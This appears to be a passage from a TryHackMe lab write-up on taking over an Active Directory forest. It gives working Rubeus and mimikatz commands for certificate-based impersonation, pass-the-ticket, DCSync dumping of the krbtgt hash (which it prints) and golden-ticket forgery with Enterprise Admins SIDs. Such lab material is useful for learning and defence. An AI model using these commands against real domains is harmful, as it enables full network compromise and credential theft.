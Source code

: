 - The last step is to export our certificate with the private key:
1. Right-click on the certificate and select **All Tasks**>**Export...**
2. Click **Next**, select **Yes, export the private key**, and click **Next**.
3. Click **Next**, then set a password for the certificate since the private key cannot be exported without a password. (password123!)
4. Click **Next** and select a location to store the certificate.
5. Click **Next** and finally click **Finish.**

- Now we can use `Rubeus` to load the certificate and create a TGT so we can impersonate the user
```bash
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:cryptoace.pfx /password:password123! /outfile:admin_ticket /domain:za.tryhackme.loc /dc:10.200.83.101
```

- Now we can use `mimikatz` to import that ticket
```bash
kerberos::ptt admin_ticket
```

- We can check our ticket using
```bash
kerberos::list
```

- Now we can use WSMAN to create a new session on the THMDC
```bash
New-PSSession -ComputerName THMDC.za.tryhackme.loc
Enter-PSSession -ComputerName THMDC.za.tryhackme.loc
```

- Got in
---------------------------------------------------------------------------------
- We have taken full control of the child domain `za.tryhackme.loc` now we can try to takeover the full domain `tryhackme.loc`
- We can create a golden ticket using `mimikatz`
- We need the `krbtgt` user hash
- Dumped it using `mimikatz`
```bash
lsadump::dcsync /user:za\krbtgt
```

- Found it
```bash
16f9af38fca3ada405386b3b57366082
````

- To create Golden Tickets
```bash
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<SID of Child Domain> /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:<SID of Enterprise Admins group> /ptt
```

- We can get SIDs using
```bash
# Child domain SID
Get-ADComputer -Identity "THMDC"

# Enterprise Admin SID
Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
```
